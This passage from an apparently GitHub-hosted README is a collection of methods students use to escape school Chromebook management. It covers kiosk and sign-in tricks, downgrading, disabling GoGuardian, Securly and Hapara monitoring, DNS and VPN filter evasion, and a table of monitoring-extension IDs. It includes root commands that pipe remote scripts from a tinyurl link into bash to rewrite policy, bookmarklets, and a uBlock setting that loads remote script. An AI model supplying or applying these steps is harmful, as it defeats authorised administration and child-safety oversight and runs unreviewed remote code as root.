3. Select one of the apps

4. As soon as you click on the app, quickly hit Alt+Shift+S.

5. This should to launch the toolbar; watch for the "No wifi" screen to appear.

6. After you click the settings on the screen brightness settings in the tool bar, nothing should happen (the tool bar will disappear), and that's normal.

7. Press Ctrl+alt+z to open Chrome Vox, then select Resources, then select a link. Now use the exact keybindings to close Chrome Vox.

8. Entering your password and school account, after click "Sign in as existing user." (Same login for school.) If everything went well, you should notice "muti user sign in disabled on this Chromebook" and be logged into your school account in the kiosk app. To bypass simply press the ESC button.

9. You should be able to exit the browser associated with your school account and see a settings option; try turning on wifi first, then close that window. The window unblocked is the last one. You can launch incognito as well.

</details>

<details>
<summary><b>Skiovox for v121</b> Unrestricted browsing</summary>

**Skiovox Method "121"**

1. signout

2. type your password in (dont enter)

3. click esc + shift + alt + r

4. click "cancel" (dont powerwash your chromebook)

5. do the normal skiovox thingy (ex: turning off wifi, going into the kiosk app, and alt + shift + s'ing then finally going to accessibility and question mark)
-- these next steps have to be fast

6. click "add wifi" then spam esc

7. click add other person and spam esc

**Only works if you have your gmail saved into your chromebook like those who have their gmail saved in their chromebook, so like when you sign out, your pfp would be there and you would only need to type your password basically if it shows usernames and photos on the sign-in screen is enabled by admin.**

</details>

<details>
<summary><b>Fakemurk</b> Trick your Chromebook into being in developer mode while being enrolled in your school's profile</summary>

**Fakemurk is a script that is able to run in developer mode to trick your Chromebook into being in developer mode while being enrolled in your school's profile. You can use this to disable any extension, as well as have full access to the chrome web store and google play store. This basically provides a personal Chromebook-like experience, while still being enrolled.**

Go here and follow instructions: <a href="https://docs.google.com/document/d/1Pku_CbEG9SwQtnm0I188RtpdpW8nXQhiNdMp8PN7Mik/edit?pli=1">Fakemurk Doc</a>

</details>

<details>
<summary><b>Pollen</b> Chrome OS User Policy Editor</summary>

**DEV MODE ONLY**

Normal Use
open crosh

```
run shell
run sudo su
run
curl -Ls https://mercuryworkshop.github.io/Pollen/Pollen.sh | bash
```

then press alt+vol_up+x

to make your own modifactions refer to the Pollen Wiki

<a href="https://github.com/MercuryWorkshop/Pollen/wiki#getting-your-policies">Pollen Modifaction Wiki</a>

</details>

<details>
<summary><b>Customized Pollen</b> Chrome OS Policy Editor Customized</summary>

**Customized Pollen for SH1mmered chrombook users.** 

The original pollen by Mercury Workshop: <a href="https://github.com/MercuryWorkshop/Pollen">Pollen GitHub</a> 

It removes all admin installed extensions and thats kinda a problem for everyone so fruvs (op) edited it to make it fit more for SH1mmer users because fruvs (op) already got caught once cause he got snitched on.

So fruvs (op) customized this one to edit lots of features. But to keep all admin installed extensions so no one get's caught. So fruvs (op) edited some

incognito mode: on (everything unblocked, idk if extensions like GoGauridan can see)

ExtensionSettings: all settings removed

HomepageLocation: chrome://newtab

NewTabPageLocation: (left empty)

ManagedBookmarks: removed all school added bookmarks

PinnedLauncherApps: removed all force pinned apps to home bar

RestoreOnStartupURLs: (set it so when you open a new window some schools forces it to also open the schools homepage so                                                          its set back to new tab and no extra tabs)

WebAppInstallForceList: removed all force installed apps


How to run

Note: Devmode NEEDS to be enabled.
Open Crosh

Run
```
shell
```
Run
```
sudo su
```

Run 
```
curl -Ls https://tinyurl.com/repollen | bash
```

Done! It may take a few seconds for the new policy to apply. If it does not apply, press 
```
alt+vol_up+x
```

Errors

If you have Linux enabled you will have to turn it off and turn it back on for it to work

THIS WILL RESET EVERY TIME YOU RESTART THE CHROMEBOOK SO YOU WILL NEED TO RE DO THE PROCESS

</details>

<details>
<summary><b>Fusion 360 exploit</b> Unblocked browser</summary>

**Some schools have Fusion360 already downloaded and if it isn’t, then download it through the play store. This exploit opens an unblocked browser inside of Fusion.** 

What you do is on the sign-up page, click terms of service. Then there is a YT logo at the bottom. Click it to go to the social media page. Next, click Autodesk under the YouTube text. Using this method, you get unblocked YT! For unblocked google, just look up “google.com link is description”. Go to the description and click google.com. Done! 

The admin can remove apps, so it can still be blocked.

</details>

<details>
<summary><b>Downgrading</b> Change versions</summary>  
Downgrading can be used for several exploits, to get to a version that does not have patches for certain exploits, sutch as LTBEEF. This is a built in feature of ChromeOS.

![image](https://user-images.githubusercontent.com/58097612/212685863-3d6b8ce1-7caa-4735-95a8-8eb6787b227c.png)

<i>Requirements</i>
1. A USB thumb drive with at least 4gb of storage, some board have small or bigger images, I recommend 16gb
2. A personal computer with access to downloading extentions
3. A brain
If you do not have these, you **CAN NOT** perform the exploit!

<i>Setup</i>
1. Navigate to `chrome://version` on the chromebook you with to downgrade and check for your board under `Platform` (ex I have a c3100 and it's board is stable-channel octopus).

<img src="https://user-images.githubusercontent.com/88395302/212484378-65e6e6e3-b995-48a1-b229-3265a4993279.png">

2. Navigate to https://chrome100.dev/ , press `ctrl+f` and type in your board.
3. Find and download the chrome version you want to your personal computer.

<i>Instlation</i>
1. Install Chromebook Recovery Utility onto your personal computer. (found at <a href="https://chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm?hl=en">chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm</a>
2. Open the extention, and click on the settings button in to top right hand corner, and click "use local image".
3. Select the recovery image you downloaded from chrome100.
4. Plug in the USB you wish to use, and follow the prompts on the screen.
5. On your chromebook, press esc+reload+power and follow the prompts.
6. On the checking for updates screen, press `ctrl`+`shift`+`e` to skip the "checking for updates" screen.
7. Profit.

</details>

<details>
<summary><b>Killcurly</b> Break extensions</summary>
Kill extension, by signing out.

1. Visit `chrome://settings/signOut`, the O in Out must be capital.
2. Press the big blue button
3. Go to `chrome://restart`
4. Now visit <a href="https://tinyurl.com/AddSession">tinyurl.com/AddSession</a> or <a href="https://accounts.google.com/signin/v2/identifier?hl=en&continue=https%3A%2F%2Fwww.google.com%2F&ec=GAlAmgQ&flowName=GlifWebSignIn&flowEntry=AddSession">this link</a>
5. Add your **SCHOOL** account back. It WILL NOT WORK if you add a home account back. This is just so you can still access Google Drive, Youtube, and any Google service.
6. All extensions should stop working.
7. Note that you have to repeat this every time you restart or sign out.
8. If the link gets patched and you no longer see the blue button, go to `chrome://settings/resetProfileSettings` click current settings, it'll open a blank page, on that page run 
```js
javascript:opener.chrome.send("TurnOffSync");
```
And visit `chrome://restart`.

Workaround for `chrome://settings/signOut` and `javascript:opener.chrome.send("TurnOffSync");` if both patched: Just go to `chrome://settings/syncSetup/advanced` and click 
Customize sync and then flip off the Extensions and Apps or just flip off everything exept for bookmarks

**This was discovered by zoroark and Brandon421-ops**

</details>

<details>
<summary><b>Extention Inactivity hack</b> Inactive Extensions</summary>

1. First do the Esc+Refresh+Power

2. ctrl+d then enter

3. will give you some bullcrap about dev mode is blocked press enter then you will go to a newly restarted chromebook

4. next add wifi-

5. then sign into your account

6. Immediately turn wifi off before extensions load

7. go to `chrome://settings/signOut`

8. click turn off sync and personalization and then turn wifi back on go to whatever site that is extension blocked.

1. Workaround for chrome://settings/signOut if patched: If the link gets patched and you no longer see the blue button, go to `chrome://settings/resetProfileSettings` click current settings, it'll open a blank page, on that page run 
```js
javascript:opener.chrome.send("TurnOffSync");
```
2. Workaround for `chrome://settings/signOut` and `javascript:opener.chrome.send("TurnOffSync");` if both patched: Just go to `chrome://settings/syncSetup/advanced` and click 
Customize sync and then flip off the Extensions and Apps or just flip off everything exept for bookmarks

Note: Before you do any of this do it at home so that way you don have to worry about asking for the school wifi password.

</details>

<details>
<summary><b>New Temporarily Unblock Anything</b> Temporarily Unblock Any Website</summary>

**Might Be Patched on 115 And Above**
  
1. Go to the chrome-extension://Paste the blocker id here/manifest.json page.

2. Go to a new tab page and type in the URL Website you want to unblock don´t go into that website yet just leave it inside the URL Box.

3. Go back to chrome-extension://Paste the blocker id here/manifest.json now create a bookmark called E now click more and In the URL Box you put `chrome://kill` now save that bookmark.

4. Create another bookmark called D click more In the URL Box copy and paste  `javascript:(function () {window.onbeforeunload = function() { return 1; };})()`    Into that URL Box and save that bookmark.

5. Go back to chrome-extension://Paste the blocker id here/manifest.json page and now click bookmark B then quickly go back to the new tab page and click enter now quickly spam bookmark D like 2 or more times now there should be a pop up called do you want to close this page click cancel now boom that website is unblocked until you turn off your chromebook or until you exit out of that website then if that happen´s your gonna have to do all the steps again.

  Easier way for step 2: instead of putting the URL in the new tab box go to chrome-extension://Paste the blocker id here/manifest.json page then click Bookmark E then go to a random website then use the javascript:open('https://YOUR WEBSITE HERE?'+'i'.repeat(1)) Bookmarklet then spam Bookmark D two or more times then a pop up should appear quickly click cancel now boom all done.    Name of Bookmarklet > Unblock Website: javascript:open('https://YOUR WEBSITE HERE?'+'i'.repeat(1))

Note: Save chrome-extension://Paste the blocker id here/manifest.json as a bookmark so you don´t have to come back here and type in the URL thing.

IMPORTANT NOTE: if bookmarklets are blocked your screwed

This workaround was found by <a href="https://github.com/Brandon421-ops">Brandon421-ops</a>

</details>

<details>
<summary><b>Old Temporarily Unblock Anything</b> Temporarily Unblock Any Website</summary>

1. Make a bookmark called tab close blocker now click more on the bottom left corner now in that URL BOX put  `javascript:(function () {window.onbeforeunload = function() { return 1; };})()`

2. Go to a newtab page now go into the URL BOX on the top and put https://YOUR WEBSITE HERE do not click enter yet stay in that URL BOX.

3. Do `search`+`esc` now that should open task manager if `search`+`esc` doesn't work then click the three dots on the top right now scroll down until you find more tools click that and now find task manager click it now boom done with step 3.

4. Find your blocker extension and click it now on the bottom right you should see a button called End process click it now quickly click the URL BOX on the newtab page and click enter now quickly spam the bookmark tab close blocker now a pop up should come up it should have to buttons cancel and leave click cancel and boom done.

  IMPORTANT NOTE: if bookmarklets are blocked your screwed also if task manager or the End process button for task manager is blocked your double screwed.

  </details>

<details>
<summary><b>uBlock Origin</b> Run Code On Pages</summary>

if your school allows the ublock origin chrome extension, then running the edpuzzle script (as well as any other bookmarklet) is possible

1. install ublock origin (<a href="https://chrome.google.com/webstore/detail/ublock-origin/cjpalhdlnbpafiamejdnhcphjbkeiagm">https://chrome.google.com/webstore/detail/ublock-origin/cjpalhdlnbpafiamejdnhcphjbkeiagm</a>)

2. go to the extension's settings

3. under the settings tab, check the "i am an advanced user" box and click on the cog icon

4. inside the advanced settings (`chrome-extension://cjpalhdlnbpafiamejdnhcphjbkeiagm/advanced-settings.html`), scroll down and find `userResourcesLocation` now change `userResourcesLocation` from `unset` to <a href="https://raw.githubusercontent.com/Brandon421-ops/Exploits-And-Hacks/main/ublockExec.js">https://raw.githubusercontent.com/Brandon421-ops/Exploits-And-Hacks/main/ublockExec.js</a>

5. in the My filters tab of the settings (`chrome-extension://cjpalhdlnbpafiamejdnhcphjbkeiagm/dashboard.html#1p-filters.html`), add `*##+js(execute_script.js)` as a filter

6. now you can press `ctrl`+`alt`+`~` to run any js on the current page

7. if you want to run a bookmarklet, just paste in the javascript: url and press ok on the popup

</details>

<details>
<summary><b>Snap&Run</b> Run Code On Pages</summary>

**Executing scripts with the "Snap&Read" extension.**

**Extension <a href="https://chromewebstore.google.com/detail/snapread/mloajfnmjckfjbeeofcdaecbelnblden">Snap&Read</a> must be installed to perform this exploit.**

### Setup
The extension needs to be signed in to an active Snap&Read account before you begin.

**Instructions.**

**Enable the Snap&Read toolbar**
- Open the Snap&Read popup by activating the extension.
- In the extension popup, enable the Snap&Read service by toggling the Snap&Read switch on.

1. Open the Snap&Read popup by activating the extension.

2. In the extension popup, enable the Snap&Read service by toggling the Snap&Read switch on.

3. In the Snap&Read toolbar, click the Show outlines  button.

4. In the Snap&Read outlines panel, click the New outline (+) button at the top left.

5. Enter any text into the outline topic's editable text area.

6. Click the bullet point of the topic.

7. Click the Link to source  option.

8. Click the plus (+) button at the bottom right.

9. Click and switch to the WEBSITE tab.

10. In the Article/Page title input field, enter the name of your chosen bookmarklet.

11. In the URL input field, enter the source of the bookmarklet, starting with `javascript:`.

**Important:** You may need to substitute escape characters for advanced bookmarklets.

12. Click SAVE at the top right.

13. Click and switch to the OUTLINE tab.

14. In the Snap&Read toolbar, click the Hide outlines  button.

### Script Execution

**Instructions**

Follow on a page of your choice.

1. In the Snap&Read toolbar, click the Show outlines  button.

2. In your created outline, click the link separated by parenthasis that contains the bookmarklet.

3. In the Snap&Read toolbar, click the Hide outlines  button.

4. Disable the Snap&Read toolbar

5. Open the Snap&Read popup by activating the extension.

6. In the extension popup, disable the Snap&Read service by toggling the Snap&Read switch off.

**Disable the Snap&Read toolbar**
- Open the Snap&Read popup by activating the extension.
- In the extension popup, disable the Snap&Read service by toggling the Snap&Read switch off.

</details>

<details>
<summary><b>Incognito</b> Bypass Extensions</summary>
IP Servers: Server 1. 52.207.185.90
            Server 2. 158.111.114.159

Step 1. Go to your settings

Step 2. Click on the wifi your using rn then click it again.

Step 3.  Scroll down until you see network once you see the option click it.

Step 4. Scroll down until you find custom name servers now once you find the option click it.

Step 5. Paste in the IP Server.

Step 6. Now there should be a notification saying open new tab click that and now you should be in a small window some instructions and there are 2 buttons click the yellow with black letters button and boom Incognito Mode is Unblocked.
One of the buttons are just a link in blue don´t click that one is just for test´s
Step 7. Go back to the network settings and change back the custom name servers to automatic name servers.
Note: If your connection is slow if your school has more than one wifi then connect to the other wifi that might have a better connection.

Btw if you close out of the Incognito Tab your gonna have to do all the steps again.

Cool Advanced Facts About Incognito Mode:
1. Bypass Extensions Aka Unblock All Websites.
2. Your History Is Hidden From Your School

</details>

<details>
<summary><b>Incognito On The Sign-In Screen</b> Bypass Extensions/Unblocked Google Webview</summary>
Might work but idk if it will

IP Servers: Server 1. 52.207.185.90
            Server 2. 158.111.114.159

Step 1. On the sign-in screen go to your wifi settings and click on the wifi your using rn

Step 2. Then Scroll down until you see network once you see the option click it.

Step 3. Scroll down until you find custom name servers now once you find the option click it.

Step 4. Paste in the IP Server.

Step 5. Now on the network settings click the sign in and now you should be in a small window some instructions and there are 2 buttons click the blue link and boom unblocked webview of google.

Cool Advanced Facts About Incognito Mode:
1. Bypass Extensions Aka Unblock All Websites.
2. Your History Is Hidden From Your School

</details>

<details>
<summary><b>Chrome-Signin Webview</b> Bypass Extensions</summary>
Unblocked Google
  
Step 1. Go to `chrome://chrome-signin`

Step 2. Click ok on the bottom right corner

Step 3. In the Email text box put `google@d11.org`

Step 4. Click `signin options`

Step 5. Now click signin with github

Step 6. Click the github logo

Step 7. In the search box on the top Right type google and then click see more topics then you will see all the google links click `www.google.com` now boom unblocked Google.

</details>

<details>
<summary><b>Chrome-Signin Webview 2</b> Bypass Extensions</summary>
Unblocked Google
  
Step 1. Go to `chrome://chrome-signin`

Step 2. Click ok on the bottom right corner

Step 3. In the Email text box put `google@d11.org`

Step 4. Click `signin options`

Step 5. Now click signin with github

Step 6 Click forgot password instead of github logo

Step 7. Click docs

Step 8. Scroll down

Step 9. Click ask the GitHub community

Step 10. Search google and click the hyperlink on the right

Credit to snail for finding this workaround.

</details>

<details>
<summary><b>Microsoft Labs</b> Bypass Extensions</summary>

YOU NEED A MICROSOFT ACCOUNT FOR THIS

Go to: <a href="https://learn.microsoft.com/en-us/training/modules/implement-common-integration-features-finance-ops/10-exercise-1">https://learn.microsoft.com/en-us/training/modules/implement-common-integration-features-finance-ops/10-exercise-1</a>

Next, sign into your Microsoft account, then if it doesn't already, go back to that link

Then, hit Launch VM Mode See images attached if needed

After it loads it's gonna ask for a password, the password is pass@word1 See images attached if needed

Then boom, you are done.

It's still kinda limited, like you can't go on Spotify sound doesn't output anyway and it, blocks random sites, but discord 100% works

Thanks to a user in TN, I was informed the best vpn to get around the FortiNet thing "Greenhub" on the Edge add-ons 

</details>

<details>
<summary><b>Quick View</b> Bypass Extensions</summary>

**QuickView is a universal webview exploit in Chrome OS that utilizes the QuickOffice component extension. This exploit lets you create login windows with arbitrary URLs, thus allowing you to load pages without any extensions.**

Go to <a href="https://quickview-exploit.pages.dev/">this link</a> and follow instructions

WARNING: If `javascript://` is blocked then you can't preform this exploit

Credit to <a href="https://ading.dev/">ading2210</a> and <a href="https://buymeacoffee.com/bypassi">Bypassi#7037</a> for finding this exploit

</details>

<details>
<summary><b>Buypass</b> Temporarily Unblock Websites</summary>

Exploit Made By <a href="https://buymeacoffee.com/bypassi">Bypassi#7037</a>

Here's the original github repo of the buypass exploit: <a href="https://github.com/bypassiwastaken/buypass">Bypassi#7037's Buypass Exploit Github Repo</a>

Here's the original website of the buypass exploit: <a href="https://buypass.bypassi.com/">Bypassi#7037's Buypass Exploit Website</a>

Here's the forked github repo of the buypass exploit: <a href="https://github.com/Brandon421-ops/buypass">Brandon421-ops's Forked Buypass Exploit Github Repo</a>

Here's 3 alternative websites of the buypass exploit:

1. <a href="https://buypass.brandonprather.repl.co/">Buypass Exploit Repl Website</a>

2. <a href="https://buypass.glitch.me/">Buypass Exploit Glitch Website</a>

3. <a href="https://buypass.netlify.app/">Buypass Exploit netlify.app Website</a>

This Exploit Is Kinda Similar To The Quick View Exploit

</details>

<details>
<summary><b>[Webview] Testnav Exploit</b> Unblocked Webview for either google or a web browser</summary>

Step 1. Download Testnav off the webstore/playstore/or run as a kiosk app as some schools have it added as one

Step 2. Open it

Step 3. After opened it will probably bring you to the page were you select your consumer, click aimsweb/aimsweb plus

Step 4. After you click goto select your district in the bottom right corner of the page

Step 5. Select “STRATFORD FRIENDS SCHOOL” 

Step 6. Click the arrow to the right of the selection box

Step 7. Click sign in options
a) Click sign in with github

Step  8. Click the github logo at the top of the screen

Step 9. Click the three bars in the top right corner, then goto the search box and type in googleyay

Step 11. Scroll down until you see DerDer56/googleyay

Step 12. There's several links to choose from, but if there's a link you want that's not there click the Bypassi Redirect Tool

(Optional) Step 13. Type in the link you want to go on and click "Go To the URL"

Step 14. Click it and you have webview (unblocked browser)

</details>

<details>
<summary><b>OP Crosh</b> Disable extensions with crosh and vmc</summary>

### Requirements
- A managed Chromebook with crosh enabled
- The `VmManagementCliAllowed` policy either unset or set to true
- Some form of removable media for noting down extension IDs (only useful for the second method and not required, but this prevents you from mistyping an extension ID).
- A willingness to powerwash

### There are two variations to this method:
1. Disabling all extensions. This is probably the most reliable, but you'd be left without useful extensions such as any adblockers. You also aren't able to install anything from the Chrome Web Store either.

2. Disabling specific extensions. This is less reliable, since this only becomes possible once Chrome OS has installed at least one extension already, which could be one that you're trying to disable.

### Testing if the method is possible:
1. Open crosh by hitting `ctrl`+`alt`+`t`
. If a command line pops up then you have crosh enabled and you can move on to step 2.

2. Test the `VmManagementCliAllowed` policy by running the `vmc` command. If a list of subcommands is shown, then you're good to go.

### Instructions:
1. Back up any data you want before the powerwash.

2. If you're doing the second variation, note down any extension IDs. You may also want to do this if you intend on disabling all extensions, since sometimes that will fail and require you to specify each extension you want to disable.

3. Powerwash by attempting to enable developer mode. Instructions are available <a href="https://chromium.googlesource.com/chromiumos/docs/+/master/developer_mode.md#dev-mode">here</a>.

4. Log into your Google account as normal, but immediately disable your internet right after you sign in.

5. You should be logged into your account, but without any extensions installed due to being offline.

6. Here the instructions are split, so follow the one for the method that you want to do.
 
### Disable All Extensions:
1. Open up crosh by hitting `ctrl`+`alt`+`t`

2. Type in `vmc create-extra-disk --size 1 /home/chronos/user/Extensions`

3. Run that command.

4. If it fails with a "file exists" error, then you must individually specify each extension that you want to remove. Move to step 5 of the next section to do that.

5. Re-enable your internet, and no extensions should be installed.
 

### Disable Specific Extensions:
1. Navigate to `chrome://extensions`.

2. Enable your internet, and immediately disable it when an extension is installed.

3. Assuming the installed extension was not one that you were trying to disable, move on to step 4. If it was, you'd have to powerwash to try again.

4. Open up crosh by hitting `ctrl`+`alt`+`t`.

5. For each extension you want to disable, run this command: `vmc create-extra-disk --size 1 /home/chronos/user/Extensions/{extension_id}`

6. Each command should look something like this: `vmc create-extra-disk --size 1 /home/chronos/user/Extensions/cjpalhdlnbpafiamejdnhcphjbkeiagm`

7. Re-enable your internet, and if you typed/pasted in the extension IDs correctly, those specific extensions should be blocked from ever being installed.

Credit to <a href="https://ading.dev/">ading2210</a> for finding this exploit

</details>

<details>
<summary><b>GoGuardian Fever</b> Disable GoGuardian</summary>

IF YOU DO NOT HAVE GOGUARDIAN THIS EXPLOIT WILL NOT WORK FOR YOU
Getting Started

1. Obviously (but still needs to be said due to skids in Titanium Network), make sure GoGuardian is actually installed

2. Visit any of the links and copy the text in it and paste it in a newtab <a href="https://github.com/Brandon421-ops/Exploits-And-Hacks/blob/main/GoGuardian%20Fever.txt">Link 1</a> <a href="https://raw.githubusercontent.com/Brandon421-ops/Exploits-And-Hacks/main/GoGuardian%20Fever.txt">Link 2</a> <a href="https://pastebin.com/raw/ytcMuigM">Link 3</a>

3. On that tab there will be a simple white screen with nothing on it, reload the page

4. If the GET request fails and you are left on an error screen (don't panic, this is intended, continue)

5. Visit `chrome://restart` to clear cached sites from GoGuardian

Enjoy a free browsing context

To undo

1. On <a href="https://goguardian.com">goguardian.com</a>, press the lock icon at the top left of the screen

2. Press cookies and site data

3. Click manage cookies

4. Then click clear each site's cookies you see there

</details>

<details>
<summary><b>Disable GoGuardian With The Chat</b> Disable GoGuardian [Unreliable]</summary>

1. wait until your teacher opens the chat window thingy

2. spam the x button until it stops re-opening

3. open the url `chrome-extension://haldlgldplgnggkjaafhelgiaglafanh/manifest.json`

4. open `chrome://extensions/?id=haldlgldplgnggkjaafhelgiaglafanh`, and toggle the “allow access to file:// urls” switch

goguardian is now disabled and you can close both tabs 

made by carteeeee

</details>

<details>
<summary><b>GoGuardian TabCrash</b> Disables GoGuardian Actions w/TAB LIMIT</summary>

**Teacher's can still see your screen, but they can't block or close any of your tabs.**

**YOUR TEACHER NEEDS TO HAVE SET A TAB LIMIT. TRY OPENING TONS OF TABS TO CONVINCE THEM TO ENABLE TAB LIMITS**.

1. create a bookmark named anything: `javascript: window.onbeforeunload = ()=>{return false;}`

2. Hold down CTRL and then SPAM CLICK the bookmark until you're well above the tab limit, opening a bunch of `about:blank` pages.

3. It might ask if you want to leave this page, this is goguardian trying to close it. Say No, and click `Prevent from creating additional dialogues`.

4. Enjoy your unblocked stay!

To undo: close all of your `about:blank` tabs

#### Discovered by @py660

</details>

<details>
<summary><b>GoGuardian TabCrash 2</b> Disables GoGuardian Actions w/TAB LIMIT</summary>

**If your teacher has turned on the tab limit you can bypass this with an extension. If the extension is blocked, sorry.**

Step 1. Download the extension <a href="https://chromewebstore.google.com/detail/read-aloud-a-text-to-spee/hdhinadidafjejdhmfkjgnolgimiaplp">Read Aloud: A Text to Speech Voice Reader</a>

Step 2. Use one of your tabs to go to IReady or Scratch. You just need a site that would display the error when you close the tab "Are you sure you want to close this site? Unsaved changes could be lost." 

Step 3. When you have the site with unsaved changes, click the extension until you see the error. Click cancel on the error.

Step 4. The extension should have opened some tabs which say: "Read Aloud uses this tab for audio playback."

Step 5. If you saw the error and clicked cancel, you should have bypassed the tab limit.

</details>

<details>
<summary><b>Insecurly</b> Toggle the Securly extension</summary>

**ONLY FOR SECURLY USERS**

Go to <a href="https://www.disablesecurly.com/">this link</a> and follow instructions

If blocked then go cry in a corner

Credit to <a href="https://www.buymeacoffee.com/bypassi">Bypassi#7037</a> for finding/Making this exploit

</details>

<details>
<summary><b>A Bypass For Securly and a few of other blocker extensions</b> Manipulate any website so securly or any other blocker extension can't block it</summary>

At any URL put #translate.google.com at the end of it or put ?suicidepreventionlifeline.org at the end of it and bam you just unblocked a website by Manipulating the URL

This only works for securly and some other blocker extensions

</details>

<details>
<summary><b>Glitch through securly</b> Unblock any website blocked from securly</summary>

**This only works if your admin/school uses securly. Not sure if this can be blocked or not. So im going to do this step by step**

1. Go to the blocked site you want to access

2. Once it shows the blocked page copy the url it shows

3. Go to the url bar and delete everything between https:// and the first "?"

4. Paste the website url

5. press enter and voila it should be unblocked

6. Have fun

confirmed working with xbox cloud gaming and now.gg

If it doesn't work then go cry.

</details>

<details>  
<summary><b>SOT Exploit</b> Unblock any website or Open any website in a about:blank page</summary>

1. Download this extension <a href="https://chromewebstore.google.com/detail/onetab/chphlpgkkbolifaimnlloiipkdnihall">One Tab</a>

2. Click the import button in the settings tab.

3. Copy-paste the URL you wish to visit about 100 times, and then click import.

4. Spam click the top link, then either spam escape on one of them or wait for one to load on a about:blank page.
  
Credit to <a href="https://github.com/Coding4Hours">Coding4Hours</a>

</details>

<details>
<summary><b>Chaos</b> A full bypass method for Hapara Highlights and Hapara Filter</summary>

**Devtools must not be blocked by policy to perform this exploit.**

Go to <a href="https://xlak.github.io/chaos/">this link</a> and follow instructions

If blocked then go cry in a corner

</details>

<details>  
<summary><b>Filter session bypass</b> Bypass hapara filter session</summary>

Bookmark this link: <a href="filtersessionbypass.txt">filtersessionbypass.txt</a>

During a filter session, right click the link, and press "Open in a new tab"
Then insert the URL for any website you want to go to.  Make sure to include https://<br>
If it says "website name refused to connect", try using a web proxy.<br>
Also this dosn't bypass blocker extentions so use an unblocked link, or another exploit.

</details>

<details>  
<summary><b>Hapara Lock Screen Bypass</b> Bypass Hapara Lock Screen</summary>

1. Make bookmarks of pages you want to visit beforehand.

2. Once your screen is paused, spam unfullscreen. Each time you do, you should see your tabs and bookmark bar come back. Attempt to right-click on the bookmarks bar until a menu shows up.

3. In the menu, select “Add folder”. Name it whatever you like. Hit Done. With luck, your tabs and bookmarks should stay at the top of your screen. If not, try again.

4. Once the tab and bookmarks bar stays, spam-click one of the bookmarks you made. This lags Hapara into displaying your page instead of the pause page. Turn off your wifi as soon as the page fully loads. This stops data flow between your amd the teacher’s computer, so that they can’t re-pause your screen.

</details>

<details>
<summary><b>Network Bypassing Via DNS</b> A bypass for any network filters</summary>

**A network filter is something that blocks website on the actual network instead of the operating system. Thus you can't disable with exploits like LTBEEF or LTMEAT.**

IP Server 1: 8.8.8.8 in all boxes

IP Server 2: 1.1.1.1 in the first box and 1.0.0.1 in the second box the third and fourth box stay 0.0.0.0

Step 1. Go to your settings

Step 2. Click on the wifi your using rn then click it again.

Step 3.  Scroll down until you see network once you see the option click it.

Step 4. Scroll down until you find custom name servers now once you find the option click it.

Step 5. Paste in one of the IP Server's.

Note: If IP Server 1 doesn't work then use IP Server 2 if IP Server 2 doesn't work then try using IP Server 1 if they both don't work your screwed

</details>

<details>  
<summary><b>Network Bypassing Via VPN</b> A bypass for any network filters</summary>

**A network filter is something that blocks website on the actual network instead of the operating system. Thus you can't disable with exploits like LTBEEF or LTMEAT.**

Go to <a href="https://drive.google.com/file/d/1MGVFf8d9pww0M2bO9ogxQX1LyR1y6zc_/view">this link</a> once you have downloaded the ONC file. Goto chrome://network and press "Import ONC File". You will have know if it worked if it says: "Network imported: 1". Then click on the time, or goto settings. Find VPN, click on it and click on the "Haven VPN" it will say "Connected" and now you are free.


If chrome://network is blocked, start bawling your eyes out and beat up your IT manager. 

</details>

<details>  
<summary><b>Extension ID's</b> </summary>

|Extension Name|Extension ID|
|--------------|------------|
|GoGuardian|`haldlgldplgnggkjaafhelgiaglafanh`|
|Mobile Guardian (installed)|`fgmafhdohjkdhfaacgbgclmfgkgokgmb`|
|<a href="https://chrome.google.com/webstore/detail/mobile-guardian/nglbmaiijljohnphofifiodoommladkj">Mobile Guardian (setup)</a>|`nglbmaiijljohnphofifiodoommladkj`|
|<a href="https://chrome.google.com/webstore/detail/securly-for-chromebooks/iheobagjkfklnlikgihanlhcddjoihkg">Securly (webstore)</a>|`iheobagjkfklnlikgihanlhcddjoihkg`|
|Securly|`joflmkccibkooplaeoinecjbmdebglab`|
|Securly (old)|`iheobagjkfklnlikgihanlhcddjoihkg`|
|Securly Classroom|`jfbecfmiegcjddenjhlbhlikcbfmnafd`|
|<a href="https://chrome.google.com/webstore/detail/blocksi-enterprise-editio/ghlpmldmjjhmdgmneoaibbegkjjbonbk">Blocksi</a>|`pgmjaihnmedpcdkjcgigocogcbffgkbn`|
|<a href="https://chrome.google.com/webstore/detail/iboss-cloud-enterprise/kmffehbidlalibfeklaefnckpidbodff">iBoss</a>|`kmffehbidlalibfeklaefnckpidbodff`|
|<a href="https://chrome.google.com/webstore/detail/forticlient-chromebook-we/igbgpehnbmhgdgjbhkkpedommgmfbeao">Fortiguard</a>|`igbgpehnbmhgdgjbhkkpedommgmfbeao`|
|<a href="https://chrome.google.com/webstore/detail/cisco-umbrella-chromebook/jcdhmojfecjfmbdpchihbeilohgnbdci">Cisco Umbrella</a>|`jcdhmojfecjfmbdpchihbeilohgnbdci`|
|NetRef|`khfdeghnhlpdfeenmdofgcbilkngngcp`|
|<a href="https://chrome.google.com/webstore/detail/ckauthenticator/jdogphakondfdmcanpapfahkdomaicfa">ContentKeeper</a>|`jdogphakondfdmcanpapfahkdomaicfa`|
|CK-Authenticator G3|`odoanpnonilogofggaohhkdkdgbhdljp`|
|<a href="https://chrome.google.com/webstore/detail/hapara-highlights-extensi/kbohafcopfpigkjdimdcdgenlhkmhbnc">Hapara</a>|`kbohafcopfpigkjdimdcdgenlhkmhbnc`|
|Smoothwall|`jbldkhfglmgeihlcaeliadhipokhocnm`|
|Linewize|`ddfbkhpmcdbciejenfcolaaiebnjcbfc`|
|<a href="https://chrome.google.com/webstore/detail/lanschool-air-chrome-exte/baleiojnjpgeojohhhfbichcodgljmnj">LANSchool</a>|`baleiojnjpgeojohhhfbichcodgljmnj`|
|<a href="https://chrome.google.com/webstore/detail/lanschool-web-helper/honjcnefekfnompampcpmcdadibmjhlk">LanSchool Web Helper</a>|`honjcnefekfnompampcpmcdadibmjhlk`|
|Lightspeed Filter Agent|`adkcpkpghahmbopkjchobieckeoaoeem`|
|Lightspeed Device Insider Agent|`njdniclgegijdcdliklgieicanpmcngj`|
|<a href="https://chrome.google.com/webstore/detail/interclass-filtering-serv/jbddgjglgkkneonnineaohdhabjbgopi">InterCLASS Filtering Service</a>|`jbddgjglgkkneonnineaohdhabjbgopi`|
